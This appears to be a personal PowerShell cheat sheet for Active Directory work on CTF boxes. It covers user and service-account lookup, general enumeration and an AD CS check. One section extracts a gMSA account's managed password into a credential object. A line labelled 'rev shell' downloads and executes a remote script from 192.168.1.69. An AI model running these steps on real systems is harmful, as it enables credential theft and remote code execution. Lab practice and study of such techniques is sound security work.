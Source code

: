 # active directory

## get user account
```powershell
Get-AdUser AccountUsername
```

## get GMSA service account properties
```powershell
Get-AdServiceAccount AccountUsername -properties *
```

### get GMSA password and run commands
```powershell
# get password
$gmsa = Get-AdServiceAccount AccountUsername -properties msDS-ManagedPassword
$mp = $gmsa.'msDS-ManagedPassword'
# get secure string
$secpwd = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Management.Automation.PSCredential('AccountUsername', $secpwd)
# test command
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { whoami }
# rev shell
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

#### fix missing ConvertFrom-AdManagedPasswordBlob
ConvertFrom-AdManagedPasswordBlob is not recognized as the name of a cmdlet, function...
need to install DSInternals module
```powershell
Install-Module DSInternals -Force
```
if powershell gallery is not available on CTF boxes
##### TODO: add steps to install from zip

# general enumeration

## get list of filepaths recursively
```powershell
gci -recurse . | select fullname
```

## get processes
```powershell
Get-Process
```

## what commands are available
```powershell
Get-Command
```

## Active Directory Certificate Services
### is AD CS enabled
```powershell
Get-WindowsFeature *ad-certificate*, *adcs*
```
